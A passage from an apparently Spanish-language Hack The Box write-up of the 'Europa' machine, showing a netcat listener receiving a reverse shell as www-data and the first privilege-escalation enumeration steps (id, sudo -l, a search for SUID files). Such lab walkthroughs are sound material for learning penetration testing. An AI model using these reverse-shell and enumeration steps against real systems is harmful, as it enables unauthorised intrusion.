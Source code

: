 ![](/assets/images/htb-europa/europa_rce1.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.22] 57950
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Ya tenemos acceso a la máquina como el usuario `www.data`, hacemos un [Tratamiento de la tty](/tratamiento-tty) para trabajar más cómodos y vemos que podemos visualizar la flag (user.txt). Ahora nos queda escalar privilegios, por lo que enumeramos un poco el sistema.

```bash
www-data@europa:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@europa:/$ sudo -l
[sudo] password for www-data: 
www-data@europa:/$ cd /
www-data@europa:/$ find \-perm 4000 2>/dev/null
www-data@europa:/$
```
